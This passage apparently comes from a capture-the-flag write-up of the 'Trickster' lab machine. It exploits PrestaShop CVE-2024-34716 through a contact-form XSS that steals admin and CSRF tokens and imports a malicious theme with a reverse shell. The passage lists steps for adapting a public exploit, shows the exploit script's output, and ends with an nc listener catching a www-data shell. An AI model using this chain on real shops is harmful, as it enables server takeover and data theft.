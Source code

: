 ![Prestashop xss test contact us form]({{ page.img }}_07_80_contact_us_xss_test.png)

```bash
httpserver 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.34 - - [26/Sep/2024 21:15:55] "GET /? HTTP/1.1" 200 -
```

Well it is vulnerable and I have the potential here to host a malicious javascript file and run arbitrary code depending on how this form is constructed. I instead look at the existing payloads for the cve. [https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) goes over in depth what the vulnerability chain is. I'll break it down here as well:

Upload a png with malicious javascript. That javascript will grab the admin token, then use that admin token to grab the csrf value. Then using both POST and these tokens a malicious theme with a reverse shell is imported. The list of things to achieve this using [https://github.com/aelmokhtar/CVE-2024-34716](https://github.com/aelmokhtar/CVE-2024-34716) are:

1. change reverse_shell.php IP and port to your liking
2. add reverse_shell.php to zip file
3. change exploit.html to admin location on site and local IP
4. change ncat to nc
5. setup an httpserver where the zip is
6. setup your own listener instead of the one this script makes

(In post the script seems to have changed)

```bash
httpserver 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.34 - - [26/Sep/2024 21:38:28] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```

```bash
python3 exploit.py 
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: raccoon@raccoon.xyz
[?] Please enter your message: see attachment for problem
[?] Please provide the path to your HTML file: exploit.html
Serving at http.Server on port 5000
[X] Yay! Your exploit was sent successfully!
[X] Remember to python http server on port whatever port is specified in exploit.html 
	in directory that contains ps_next_8_theme_malicious.zip to host it.
[X] Once a CS agent clicks on attachment, you'll get a SHELL!
[X] Ncat is now listening on port 1234. Press Ctrl+C to terminate.
Listening on 0.0.0.0 1667
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 200
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.34 47156
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 02:50:37 up  2:40,  0 users,  load average: 1.04, 0.39, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1167): Inappropriate ioctl for device
bash: no job control in this shell
www-data@trickster:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
